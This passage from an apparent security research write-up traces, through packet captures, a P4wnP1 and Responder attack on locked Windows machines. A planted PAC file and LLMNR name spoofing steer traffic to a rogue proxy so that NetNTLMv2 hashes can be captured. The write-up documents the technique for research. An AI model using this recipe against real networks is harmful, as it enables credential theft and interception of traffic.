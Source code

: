 The snippet above shows how a Windows requests the propagated PAC file with a service using the user agent `WinHttp-Autoproxy-Service/5.1`.

Additionally it is shown that this request succeeds (no authentication requested) and a PAC script is delivered, which advices the HTTP clients to use the WebProxy at `authtome:3128` for every connection which isn't directed to `localhost` or `10.0.0.1`.

As `authtome` isn't a known host, the client is forced to resolve the name (LLMNR, NBNS, DNS). It would have been easier to supply the P4wnP1 IP directly, but responder is answering name resolution requests anyway (so this wasn't needed and never changed).


#### 3. Name Resolution via LLMNR

```
Internet Protocol Version 4, Src: 172.16.0.1, Dst: 172.16.0.2
User Datagram Protocol, Src Port: 5355, Dst Port: 51442
Link-local Multicast Name Resolution (response)
... snip ...
    Queries
        authtome: type A, class IN
            Name: authtome
            [Name Length: 8]
            [Label Count: 1]
            Type: A (Host Address) (1)
            Class: IN (0x0001)
    Answers
        authtome: type A, class IN, addr 172.16.0.1
            Name: authtome
            Type: A (Host Address) (1)
            Class: IN (0x0001)
            Time to live: 30
            Data length: 4
            Address: 172.16.0.1
```

The snippet shows the response of Responder for the LLMNR based name resolution request for `authtome`. So `authme` is now tied to P4wnP1's IP.
This "namespoofing" actually isn't a needed part to make the hash stealing attack work. I included it to highlight that the goal could be achieved using other spoofing / redirection / MitM attacks. 

Why ? Because even Microsoft asked for clarification on how this vector could be exploited network based (remember, conflict with #3 of "10 Immutable Laws Of Security"), without attaching an USB device. Of course there are many ways to grab a NetNTLM(v2) hash network based, especially when Responder joins the game. I'm also aware of the fact, that is doesn't matter if the boxes spitting out hashes are locked during an engagement, when network access is granted - but in this context it should matter (Keep WiFi based attacks in mind - Evil Twin, Karma APs etc.).

#### 4. CONNECT request on proxy (authtome:3128)

```
 ... snip ...
Internet Protocol Version 4, Src: 172.16.0.2, Dst: 172.16.0.1
Transmission Control Protocol, Src Port: 50286, Dst Port: 3128, Seq: 1, Ack: 1, Len: 103
Hypertext Transfer Protocol
    CONNECT v10.vortex-win.data.microsoft.com:443 HTTP/1.1\r\n
    Host: v10.vortex-win.data.microsoft.com:443\r\n
    \r\n
    [Full request URI: v10.vortex-win.data.microsoft.com:443]
```
